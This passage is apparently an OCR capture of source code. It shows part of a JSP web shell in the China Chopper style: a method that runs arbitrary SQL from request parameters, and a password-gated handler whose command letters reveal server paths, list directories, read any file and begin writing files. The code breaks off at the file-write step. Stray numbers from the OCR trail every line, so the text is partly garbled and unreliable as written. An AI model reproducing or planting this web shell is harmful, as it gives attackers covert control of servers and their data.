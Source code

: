 ```
    void QQ(String cs, String s, String q, StringBuffer sb) throws Exception {      17
        int i;      17
        Connection c = GC(s);      17
        Statement m = c.createStatement(1005, 1008);      17
        try {      17
            ResultSet r = m.executeQuery(q);      17
            ResultSetMetaData d = r.getMetaData();      17
            int n = d.getColumnCount();      18
            for (i = 1; i <= n; i++) {      18
                sb.append(d.getColumnName(i) + "\t|\t");      18
            }      18
            sb.append("\r\n");      18
            while (r.next()) {      18
                for (i = 1; i <= n; i++) {      18
                    sb.append(EC(r.getString(i), cs) + "\t|\t");      18
                }      18
                sb.append("\r\n");      18
            }      19
            r.close();      19
        } catch (Exception e) {      19
            sb.append("Result\t|\t\r\n");      19
            try {      19
                m.executeUpdate(q);      19
                sb.append("Execute Successfully!\t|\t\r\n");      19
            } catch (Exception ee) {      19
                sb.append(ee.toString() + "\t|\t\r\n");      19
            }      19
        }      20
        m.close();      20
        c.close();      20
    }%>          20
<%      20
    String cs = request.getParameter("z0")==null?"gbk": request.getParameter("z0") + "";      20
    request.setCharacterEncoding(cs);      20
    response.setContentType("text/html;charset=" + cs);      20
    String Z = EC(request.getParameter(Pwd) + "", cs);      20
    String z1 = EC(request.getParameter("z1") + "", cs);      20
    String z2 = EC(request.getParameter("z2") + "", cs);      21
    StringBuffer sb = new StringBuffer("");      21
    try {      21
        sb.append("->" + "|");      21
        if (Z.equals("A")) {      21
            String s = new File(application.getRealPath(request      21
                    .getRequestURI())).getParent();      21
            sb.append(s + "\t");      21
            if (!s.substring(0, 1).equals("/")) {      21
                AA(sb);      21
            }      22
        } else if (Z.equals("B")) {      22
            BB(z1, sb);      22
        } else if (Z.equals("C")) {      22
            String l = "";      22
            BufferedReader br = new BufferedReader(      22
                    new InputStreamReader(new FileInputStream(new File(      22
                            z1))));      22
            while ((l = br.readLine()) != null) {      22
                sb.append(l + "\r\n");      22
            }      23
            br.close();      23
        } else if (Z.equals("D")) {      23
            BufferedWriter bw = new BufferedWriter(      23
                    new OutputStreamWriter(new FileOutputStream(      23
                            new File(z1))));      23
```